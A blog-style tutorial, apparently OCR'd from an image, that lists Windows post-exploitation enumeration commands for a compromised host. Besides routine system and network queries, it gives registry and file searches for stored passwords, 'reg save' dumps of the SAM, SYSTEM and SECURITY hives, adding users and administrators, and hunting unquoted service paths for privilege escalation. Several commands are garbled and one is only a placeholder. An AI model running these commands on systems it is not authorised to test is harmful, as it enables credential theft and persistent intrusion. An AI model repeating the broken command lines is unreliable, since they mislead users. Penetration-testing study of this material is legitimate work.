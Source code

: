 ```yaml
---
layout: post
published: true
title: Windows Post Exploitation 12.1
tags:
  - PWP
  - Intermediate
  - Windows Post Exploitation
comments: true
---
```

## Windows Post Enumeration

## Introduction

In this blog post, we will learn about manual post enumeration techniques to gather information about the compromised target in order to Escalate Privileges, Data Exfiltration, Persistent Access.




After compromising a device and having system-level access, Now we will gather more information about the target system to get the big scope and escalate our privileges.

The very first command to execute

To get system information
~~~
systeminfo
~~~

To get system information remotely
~~~
systeminfo /S <targetIp> /U <domain>\<user> /P <Password>
~~~

To list current user, sid, groups the current user is a member of and their sids as well as current privilege level.
~~~
whoami /all
~~~

To get OS Version
```
ver
```
To check file/folder permissions
```
cacls
icacls
```

To show processes and services in system.
~~~
tasklist /svc
~~~

To show all processes & DLLs
~~~
tasklist /m
~~~

To remote process listing
~~~
tasklist /S ip /v
~~~


To show all environmental variables.
```
set  
```
To look for specific USERDOMAIN, USERNAME, USERPROFILE, HOMEPATH, LOGONSERVER, COMPUTERNAME, APPDATA, and ALLUSERPROFILE, use `set` with them.
```
set USERPROFILE
```

To show services of system

```
sc query state=all
```
```
net start
```
To search the registry for passwords/or any string
```
reg query HKLM /f password /t REG SZ /s
```

To list all the currently scheduled tasks that your current user has access to see.
```
schtasks
```

To get more information about a service

~~~
sc getkeyname <service name>                   //It will give you a key
sc queryex <keyname>
~~~


To get all information about the workstation

```
net config workstation
```

To display hosts in the current domain
```
net view /domain
```

To list all users in the current domain
```
net user /domain
```

To add a user

```
net user username password /add
```

To add a user in Administrators
```
Add user to Administrators
```

To check network configurations of the system
```
ipconfig /all
```

To display local DNS Cache
```
ipconfig /displaydns
```
To know the listening ports of the system

```
netstat -ani findstr LISTENING
```

To list all open connections
```
netstat -ana
```

To prints the password policy for the domain
```
net accounts /domain
```
To print the members of Administrators local group
```
net localgroup administrators
```

To find active SMB session
```
net session I find I "\\"
```

To search files for the password string

```
findstr /si password' .txt I *.xmll *.xls
``` 

To display Domain and DC info
```
wmic ntdomain list
```
To search for services with unquoted paths to binary

```
wmic service get namee,displayname,pathnamee,startmode | findstr /i "auto" | findstr /i /v "C:\windows\\" | findstr /i /v """
```

For finding other networks and static routes that have been put in place
```
route print
```

To find the file match with the search string
```
dir \ /s /b | find /I “searchstring
```

**WMI commands**

* wmic bios
* wmic qfe
* wmic qfe get hotfixid (This gets patches IDs)
* wmic startup
* wmic service
* wmic os
* wmic process get caption,executablepath,commandline
* wmic process call create “process_name” (executes a program)
* wmic process where name=”process_name” call terminate (terminates program)
* wmic logicaldisk where drivetype=3 get name, freespace, systemname, filesystem, size,
* volumeserialnumber (hard drive information)
* wmic useraccount (usernames, sid, and various security related goodies)
* wmic useraccount get /ALL
* wmic share get /ALL (you can use ? for gets help ! )
* wmic startup list full (this can be a huge list!!!)
* wmic /node:"hostname" bios get serialnumber (this can be great for finding warranty info about the target)

**Reg Command**

* reg save HKLM\Security security.hive (Save security hive to a file)
* reg save HKLM\System system.hive (Save system hive to a file)
* reg save HKLM\SAM sam.hive (Save sam to a file)=
* reg add [\\TargetIPaddr\] [RegDomain][ \Key ]
* reg export [RegDomain]\[Key] [FileName]
* reg import [FileName ]
* reg query [\\TargetIPaddr\] [RegDomain]\[ Key ] /v [Valuename!] (you can to add /s for recurse all values )


## Conclusion

**_We have discussed some commands to gather information about the compromised target and the techniques to post emumeration_**
























